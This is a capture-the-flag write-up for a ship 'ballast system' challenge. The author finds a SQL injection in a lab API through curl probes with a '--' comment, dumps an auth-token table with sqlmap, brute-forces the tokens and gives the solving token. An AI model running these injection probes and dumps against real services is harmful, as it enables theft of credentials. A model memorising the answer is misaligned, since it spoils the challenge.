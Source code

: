 # ballast

## Challenge

```
We need as many options to stop this boat as we can find! If you can figure out a way to sabotage it instead of just taking control of the navigation, that'll work too!

Target: Your target is the authorization code to control the ballast system.

10.0.1.11
```

## Walkthrough

```sh
$ sudo nmap 10.0.1.11 -sS -v -A -p 0-65535
...
Discovered open port 22/tcp on 10.0.1.11
Discovered open port 31968/tcp on 10.0.1.11
Discovered open port 3002/tcp on 10.0.1.11
...
3002/tcp  open  http        nginx
|_http-title: OpenBridge :: Index
...
31968/tcp open  ssl/unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
...
```

There were 2 HTTP servers running on the machine. Visting each server showed that `:3002` was running a different challenge. `:31968` was what I nedeed to exploit.

Navigating to `:31968` provided a convenient swagger definitions page behind a warning page due to the self signed certificate.

![get](get.png)
![post](post.png)

Clearly I needed to exploit the `GET /ballast` in order to find the auth token.

I played around with some different invalid inputs to get a feel for what I thought that exploit might be.


```sh
$ curl -k 'https://10.0.1.11:31968/ballast?rt=123' 
[{"readTime":"2022-01-16T00:56:14Z","statusRaw":972035,"port":97,"stbd":97}]

$ curl -k 'https://10.0.1.11:31968/ballast?rt=abcd'
[]

$ curl -k 'https://10.0.1.11:31968/ballast?rt=--abcd'
[{"readTime":"2022-01-16T00:56:14Z","statusRaw":972035,"port":97,"stbd":97}]   
```

After noticing that an invalid input lead to an empty json array I tried placing the string after an SQL comment `--`. This worked, giving away that the issue was likely SQLI.

To exploit the SQLI I brought out `sqlmap`, an automatic SQLI exploiting tool. I had to run it through an HTTP proxy since `sqlmap` doesn't support an insecure mode where certificates aren't checked.

```sh
$ sqlmap -u 'https://10.0.1.11:31968/ballast?rt=1' --proxy="http://localhost:8080" --level 5 --risk 3 --threads 10 --tables
...
[2 tables]
+--------+
| auth   |
| sensor |
+--------+
...

$ sqlmap -u 'https://10.0.1.11:31968/ballast?rt=1' --proxy="http://localhost:8080" --level 5 --risk 3 --threads 10 -T auth
...
Table: auth
[31 entries]
+------------------+------+
| auth             | code |
+------------------+------+
| 7c891300d29ee171 | 1    |
| d4e26453da9da0da | 2    |
| c4bb7fbedcd289f9 | 3    |
| f2fa13a69c41edd3 | 4    |
| 5a834caf9aa572f2 | 5    |
| 265f6855da808fee | 6    |
| af0a0ebbd8d06805 | 7    |
| 1a3bdc9e354595b3 | 8    |
| 0dcded01a3ef45b3 | 9    |
| 396324979803a664 | 10   |
| 87fd4e2c33578122 | 11   |
| ba418662d921ca86 | 12   |
| 274d080f89b03da1 | 13   |
| 6433c4059f5ac1d5 | 14   |
| 4110cf37d60ac7a5 | 15   |
| b6af0a74f1787e3a | 16   |
| 162aebf2755e2f42 | 17   |
| 6d2af8874200f1f7 | 18   |
| fe142ee05fbdf046 | 19   |
| c17a5d2a0857c687 | 20   |
| 7b3ced5924e1beed | 21   |
| 7245a54b379f996a | 22   |
| 5180e6aaa397fb6a | 23   |
| 17d3cf64165ac676 | 24   |
| 60d9051cbc7df99e | 25   |
| c661182f67edb4a8 | 26   |
| 4af257c2e1529722 | 27   |
| b5ea4144e885b1db | 28   |
| 7a92ebfcd8e93047 | 29   |
| a4f494fa78df7a39 | 30   |
| 61e521c49e0d13a5 | 31   |
+------------------+------+
...
```

And this is where I ran out of time :( However I continued to solve the challenge after the timer was up.

I created a python script to try every auth token and find which was correct. [authcheck.py](authcheck.py)

```
$ python3 authcheck.py
...
b6af0a74f1787e3a 202
```

So close!

## Solve

token: `b6af0a74f1787e3a`
